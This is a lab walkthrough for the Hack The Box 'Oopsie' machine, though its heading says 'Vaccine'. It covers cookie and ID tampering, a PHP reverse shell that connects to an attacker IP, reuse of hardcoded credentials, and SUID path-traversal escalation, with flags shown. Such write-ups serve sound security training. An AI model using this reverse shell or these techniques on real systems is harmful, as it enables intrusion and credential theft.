







# Starting Point / Vaccine

**About:** Oopsie is a very easy Linux machine that highlights the impact of information disclosure and broken access control in web applications. Website enumeration reveals a guest login with manipulatable cookies and user IDs allowing escalation to an admin role and access to a file upload feature. A PHP reverse shell is then uploaded to gain an initial foothold. Further enumeration exposes hardcoded credentials enabling lateral movement to another user. Finally, privilege escalation is achieved by abusing a misconfigured SUID binary through PATH hijacking.

**Target:** `10.129.23.251`

---

## Task 1 - With what kind of tool can intercept web traffic?

Its a proxy

**Answer:** `proxy`

---

## Task 2 - What is the path to the directory on the webserver that returns a login page?

Opened ip burpsuite and did a basic crawl on the site:
- Target > Open Browser > http://10.129.23.251



- Login script:
	 - http://10.129.23.251/cdn-cgi/login/script.js

**Answer:** `/cdn-cgi/login`

---

## Task 3 - What can be modified in Firefox to get access to the upload page?

Going to the page and logging in as a guest, we can the cookie in burpsuite:

`Cookie: user=2233; role=guest`



In order to get to the `/uploads` page, we need `super admin rights`, so can we just modify the role?

**Answer:** `cookie`

---

## Task 4 - What is the access ID of the admin user?

If we go to the `account` page we can see our own Access ID, name, and email, and the access id matches our cookie user value:

`http://10.129.23.251/cdn-cgi/login/admin.php?content=accounts&id=2`

|Access ID|Name|Email|
|---|---|---|
|2233|guest|guest@megacorp.com|



If we modify the value in the URL, we can see the account info for the admin user:

`http://10.129.23.251/cdn-cgi/login/admin.php?content=accounts&id=1`

|Access ID|Name|Email|
|---|---|---|
|34322|admin|admin@megacorp.com|



**Answer:** `34322`


---

## Task 5 - On uploading a file, what directory does that file appear in on the server?

We can use burp to navigate to the Uploads link by modifying the cookies and forwarding:

`Cookie: user=34322; role=admin`

And then we can get to the link:




But can we upload a php reverse shell? The answer is yes. Putting together a very simply php reverse:

Refs:
- https://www.php.net/manual/en/function.fsockopen.php
- https://www.php.net/manual/en/function.proc-open.php

**Step 1:** Create the shell.php:

```php
<?php
    $sock = fsockopen("10.10.14.253", 6969);
    $proc = proc_open("sh -i", [$sock, $sock, $sock], $pipes); #The array of $socks represents fd0,fd1,fd2 for stdin,stdout,stderr
?>
```

**Step 2:** Start the netcat listener:

`nc -lvnp 6969`

**Step 3:** Go to the uploads page, and upload the shell.php:

Using the correct cookie: `Cookie: user=34322; role=admin`



**Step 4:** Go to `http://10.129.23.251/uploads/shell.php` and establish dominance:

```bash
└─$ nc -lvnp 6969 
listening on [any] 6969 ...
connect to [10.10.14.253] from (UNKNOWN) [10.129.23.251] 49862
sh: 0: can't access tty; job control turned off
$ whoami
www-data

$pwd
/var/www/html/uploads
```

Our shell.php has been uploaded to `/uploads`

**Answer:** `/uploads`

---

## Task 6 - What is the file that contains the password that is shared with the robert user?

Now that we have the shell, I'll just poke around:

I grep'd for `robert` in `/var/www/html` and found these cool credentials in the `db.php` file:

```bash
$ grep -Rin robert /var/www/html
/var/www/html/cdn-cgi/login/db.php:2:$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```

**Answer:** `db.php`

---

## Task 7 - What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?

It appears i have no sudo:

```bash
$ sudo -l
sudo: no tty present and no askpass program specified
```

But it's okay because I can google:
Ref: https://www.w3schools.com/python/ref_module_pty.asp

Can use `python3 -c 'import pty; pty.spawn("/bin/bash")'` to start a pseudo-terminal that allows sudo use:

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@oopsie:/var/www/html$ 
```

Not that I needed that anyway i guess... more geewhiz... 

because you can just run the `find` command with `- group`:

```bash
www-data@oopsie:/var/www/html$ find / -group bugtracker
......
find: '/run/systemd/unit-root': Permission denied
find: '/run/systemd/inaccessible': Permission denied
find: '/run/lock/lvm': Permission denied
/usr/bin/bugtracker
```

**Answer:** `find`

---

## Task 8 - Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?

Because the SUID bit is set, the executable will run with the user owner privileges, which is root:

```bash
www-data@oopsie:/var/www/html$ ls -l /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker

www-data@oopsie:/var/www/html$ ls -l /usr | grep bin
drwxr-xr-x   2 root root 36864 Oct 11  2021 bin
drwxr-xr-x   2 root root  4096 Oct 11  2021 sbin
```
SUID is annotated with the `s` in the permissions `-rwsr-xr--`:

**Answer:** `root`

---

## Task 9 - What SUID stands for?

It's Set User ID innit?

Incorrect, they wanted `Set owner User ID`

**Answer:** `Set owner User ID`

---

## Task 10 - What is the name of the executable being called in an insecure manner?

```bash
www-data@oopsie:/var/www/html$ bugtracker
bash: /usr/bin/bugtracker: Permission denied
```

Should prolly su to `robert` using the password we found earlier:

```bash
www-data@oopsie:/var/www/html$ su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/var/www/html$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: w2
---------------

cat: /root/reports/w2: No such file or directory
```

Is it cat?

It is cat:

**Answer:** `cat`

---

## User Flag - Submit the flag located in the robert user's home directory.

Easy enough since we are now the roberto user:

```bash
robert@oopsie:~$ cat /home/robert/user.txt
f2c74ee8db7983851ab2a96a44eb7981
```

**Answer:** `f2c74ee8db7983851ab2a96a44eb7981`

---

## Root Flag - Submit the flag located in root's home directory.

Now just use that insecure setup for `bugtracker` and use directory traversal to read the `/root` users files:

I didn't know what the file was called so i just read everything:

```bash
robert@oopsie:~$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../../root/*
---------------

cat: /root/reports/../../../root/reports: Is a directory
af13b0bee69f8a877c3faf667f7beacf
```

**Answer:** `af13b0bee69f8a877c3faf667f7beacf`
